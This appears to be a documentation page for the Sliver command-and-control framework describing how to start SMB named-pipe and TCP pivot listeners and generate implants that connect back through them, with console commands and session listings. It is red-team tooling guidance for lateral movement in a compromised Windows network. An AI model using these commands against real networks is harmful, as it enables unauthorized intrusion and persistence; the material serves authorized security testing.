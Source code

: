 Sliver supports two types of pivot listeners: SMB and TCP pivots.

# SMB named pipe pivot

To start a SMB pivot listener, use the `named-pipe` command from a sliver session:

```
sliver (DELIGHTFUL_TELLER) > named-pipe -h

Start a named pipe pivot listener

Flags:
======
  -h, --help              display help
  -n, --name    string    name of the named pipe
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (DELIGHTFUL_TELLER) > named-pipe --name lol

[*] Listening on \\.\pipe\lol
```

Then, generate a new sliver using the `named-pipe` transport:

```
sliver > generate --named-pipe desk01/.pipe/lol --skip-symbols --save /tmp
```

The format for the `--named-pipe` parameter is `HOSTNAME//./pipe/PIPE_NAME` where:

- `HOSTNAME` is either the IP address, the machine name or the Fully Qualified Domain Name (FQDN) of the host
- `PIPE_NAME` is the same name as the one used in the `named-pipe` command

Once the new sliver runs, you should see something similar to this output:

```
[*] Session #5 YUMMY_C-CLAMP - \\DESK01\pipe\lol (APPSRV01) - windows/amd64 - Thu, 09 Jul 2020 10:54:16 CEST
sliver (FLAT_HUT) > sessions

ID  Name           Transport           Remote Address      Hostname  Username              Operating System  Last Check-in
==  ====           =========           ==============      ========  ========              ================  =============
4   FLAT_HUT       mtls                172.16.20.13:23424  DESK01    CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
5   YUMMY_C-CLAMP  named-pipe (PIVOT)  \\DESK01\pipe\lol   APPSRV01  CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
```

# TCP Pivot

To start a TCP pivot, use the `tcp-pivot` command from a sliver session:

```
sliver (CHUBBY_PAVILION) > tcp-pivot -h

Start a TCP pivot listener

Flags:
======
  -h, --help              display help
  -l, --lport   int       tcp listen port (default: 9898)
  -s, --server  string    interface to bind server to (default: 0.0.0.0)
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (CHUBBY_PAVILION) > tcp-pivot -l 8000 -s 172.16.241.1

[*] Listening on tcp://172.16.241.1:8000
```

Then, use `generate` to create a new sliver that will connect through the pivot:

```
sliver > generate --skip-symbols --tcp-pivot 172.16.241.1:8000

```

Once this new sliver executes, you should see something like this:

```
[*] Session #3 DELIGHTFUL_TELLER - 172.16.241.1:8000 (DESKTOP-0QQJ4JL) - windows/amd64 - Thu, 09 Jul 2020 10:24:05 CEST

sliver > sessions

ID  Name               Transport    Remote Address      Hostname         Username             Operating System  Last Check-in
==  ====               =========    ==============      ========         ========             ================  =============
...
3   DELIGHTFUL_TELLER  tcp (PIVOT)  172.16.241.1:8000   DESKTOP-0QQJ4JL  DESKTOP-0QQJ4JL\lab  windows/amd64     Thu, 09 Jul 2020 10:24:08 CEST
```

